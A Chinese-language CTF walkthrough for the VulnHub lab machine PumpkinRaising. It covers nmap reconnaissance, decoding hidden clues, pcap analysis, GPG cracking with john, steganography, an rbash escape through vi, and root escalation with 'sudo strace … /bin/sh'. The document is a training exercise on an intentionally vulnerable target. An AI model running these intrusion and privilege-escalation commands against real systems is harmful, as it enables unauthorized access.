 # PumpkinRaising-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/mission-pumpkin-v10-pumpkinraising,324/

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinRaising is Level 2 of series of 3 machines under Mission-Pumpkin v1.0. The Level 1 ends by accessing PumpkinGarden_Key file, this level is all about identifying 4 pumpkin seeds (4 Flags - Seed ID’s) and gain access to root and capture final Flag.txt file.

**知识点**
- 字符加解密
- 流量分析
- GPG爆破
- rbash逃逸
- 图片隐写

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/1.png)

排除法,去掉自己、宿主机、网关,这里 `192.168.141.129` 是靶机的地址。

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.129
```

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/2.png)

web 和 ssh,先看看 web

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/3.png)

源码中有段 base64,解出来不是关键内容

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/4.png)

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/5.png)

同时有个链接 http://192.168.141.129/pumpkin.html ,查看下里面源码

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/7.png)

里面这段是 base32,我拿64解了半天

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/8.png)

下载这个流量文件,wireshark 分析一下，Ctrl+Alt+Shift+T,切换跟踪 tcp 流

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/9.png)

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/10.png)

其中提到了种子 ID 50609,先记着,之后应该会用的到。

同时 http://192.168.141.129/pumpkin.html 页面最底端还有一串字符

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/14.png)

hex 解一下

```
Yay! Appreciate your patience :)
All things are difficult before they become easy.
Acorn Pumpkin Seeds ID: 96454

Do, remember to inform Jack to plant all 4 seeds in the same order.
```

种子 ID:96454

在 robots 文件中，发现它提供了一些信息,访问 http://192.168.141.129/robots.txt

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/6.png)

下面3个url都有内容
- http://192.168.141.129/underconstruction.html
- http://192.168.141.129/hidden/note.txt
- http://192.168.141.129/seeds/seed.txt.gpg

先看下 note.txt

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/11.png)

看上去像是账号密码,ssh 试了下，都无法登录

说不定可以用来解 seed.txt.gpg,试下
```
wget http://192.168.141.129/seeds/seed.txt.gpg
gpg --decrypt seed.txt.gpg
```

解不了,尝试用 john 跑出来
```bash
gpg2john seed.txt.gpg > hash
john hash
john --wordlist=wordlist.txt hash   # 随便找了字典尝试,没有跑出来
```

搜了下别人的 walkthrough,密钥是 SEEDWATERSUNLIGHT ,是首页下面三个单词的组合...^w^

输入密钥看下内容

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/12.png)

下面部分是莫斯电码

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/13.png)

```
YOU ARE ON THE RIGHT PATH... BIGMAXPUMPKIN SEEDS ID: 69507
```

种子 ID : 69507

访问 http://192.168.141.129/underconstruction.html

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/15.png)

按小标题的意思,可能有内容在图片中,做到图片隐写了

一开始我使用 uc.gif,然后发现其实是 http://192.168.141.129/images/jackolantern.gif

工具地址 : https://stegosuite.org/ ,密码是之前 note.txt 中的 Qn@F5zMg4T

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/16.png)

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/17.png)

种子ID : 86568

到目前为止,有4个种子
```
50609
96454
69507
86568
```

在 note.txt 中有个 `goblin : 79675-06172-65206-17765`

这4个种子应该也可以这么组合,说不定是 SSH 的密码,带 `-` 和不带 `-` 都试试

最后结果是
```
jack: 69507506099645486568
```

连接上去是个 rbash

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/18.png)

使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

# 提权

搜集信息,尝试提权
```
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/19.png)

参考 strace 提权 https://gtfobins.github.io/gtfobins/strace/
```bash
sudo strace -o /dev/null /bin/sh
```

提权成功

![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinRaising/20.png)
